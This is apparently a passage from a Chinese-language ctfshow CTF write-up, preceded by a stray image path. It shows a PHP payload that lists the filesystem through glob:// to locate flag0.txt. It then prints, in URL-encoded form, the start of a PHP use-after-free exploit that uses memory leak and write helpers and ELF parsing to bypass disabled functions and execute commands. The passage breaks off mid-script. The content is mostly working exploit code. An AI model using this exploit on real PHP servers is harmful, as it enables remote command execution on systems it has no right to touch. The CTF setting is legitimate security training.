 ```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();
```

这里有两种写法，成功找到`flag0.txt`，但还是没有办法读取这个文件，这要利用uaf的脚本进行命令执行，脚本如下(urlencode)：

```
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
```
